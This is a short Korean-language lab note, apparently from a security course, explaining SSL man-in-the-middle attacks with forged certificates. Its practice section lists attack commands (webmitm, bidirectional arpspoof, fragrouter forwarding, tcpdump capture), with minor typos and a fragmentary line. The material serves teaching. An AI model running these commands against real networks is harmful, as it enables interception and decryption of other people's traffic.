

## SSL MITM

- SSL MITM
  - Key 동기화를 위해 인증서를 전달하는 과정이 공격자에게 노출됨

  - 공격자가 클라이언트와는 서버 역할, 서버와는 클라이언트 역할을 수행하며 key 동기화 과정을 진행

  - 클라이언트는 공격자의 위조된 인증서를 통해 획득한 공개키로 클라이언트가 생성한 비밀키를 전달

  - 공격자는 정상 서버에게 서버의 인증서를 통해 획득한 공개키로 공격자가 생성한 비밀키를 전달

  - 공격자는 양쪽 통신에 필요한 비밀키를 획득 하여 전달되는 요청/응답을 복호화

    

#### 실습

- 공격자의 인증서 생성

  - kh 인증서는 서버에서 공격자로 

  - 새로운 위조된 인증서를 만들어서 공격대상

    ```
    # webmitm
    ```

    

- 인증서 확인

  ```
  # ls -al webmitm.crt
  ```

  

- 가짜 인증서 동작

  ```
  # webmitm -d
  ```

  

- 가짜 웹서버

  ```
  # service apache2 restart
  # netstat -antup | grep webmitm
  ```

  

- aspsoofing

  - 두번째 터미널

    ```
    # arpspoof -t 공격대상 웹서버		
    ```

    

  - 세번째 터미널

    ```
    # arpspoof -t 웹서버 공격대상
    ```

    

- 패킷 포워딩

  ```
  # fragrouter -B1
  ```

  

- tcpdum를 이용하여 지나가는 SSL 패킷 캡쳐

  ```
  # tcpdump -i eth- -xX -w ssldump.pcap
  ```

  